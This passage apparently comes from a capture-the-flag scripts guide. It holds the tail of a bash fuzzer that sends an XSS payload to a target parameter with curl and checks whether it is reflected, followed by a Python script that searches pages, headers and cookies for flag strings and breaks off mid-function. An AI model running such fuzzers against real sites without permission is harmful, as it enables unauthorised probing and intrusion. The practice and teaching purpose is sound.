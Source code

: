 ```bash
    "<input onfocus=alert(1) autofocus>"
)

for payload in "${PAYLOADS[@]}"; do
    encoded=$(printf %s "$payload" | jq -sRr @uri)
    response=$(curl -s "$TARGET?$PARAM=$encoded")
    
    if echo "$response" | grep -q "$payload"; then
        echo "[!] Reflected XSS found: $payload"
    fi
done

echo "[*] Fuzzing complete"
```

### Script 5: Automatic Flag Finder
```python
#!/usr/bin/env python3
# flag_finder.py

import re
import requests
from bs4 import BeautifulSoup
import base64

def find_flags(url):
    print(f"[*] Searching for flags in {url}")
    
    # Common flag patterns
    patterns = [
        r'flag\{[^\}]+\}',
        r'FLAG\{[^\}]+\}',
        r'CTF\{[^\}]+\}',
        r'[a-f0-9]{32}',  # MD5 hash
        r'[A-Za-z0-9+/=]{20,}',  # Base64
    ]
    
    try:
        r = requests.get(url, timeout=10)
        
        # Check response body
        for pattern in patterns:
            matches = re.findall(pattern, r.text)
            if matches:
                print(f"[+] Found in body: {matches}")
        
        # Check headers
        for header, value in r.headers.items():
            for pattern in patterns:
                matches = re.findall(pattern, str(value))
                if matches:
                    print(f"[+] Found in header {header}: {matches}")
        
        # Check cookies
        for cookie in r.cookies:
            decoded = base64.b64decode(cookie.value + '==').decode('utf-8', errors='ignore')
            for pattern in patterns:
                matches = re.findall(pattern, decoded)
                if matches:
                    print(f"[+] Found in cookie {cookie.name}: {matches}")
        
        # Check HTML comments
        soup = BeautifulSoup(r.text, 'html.parser')
```
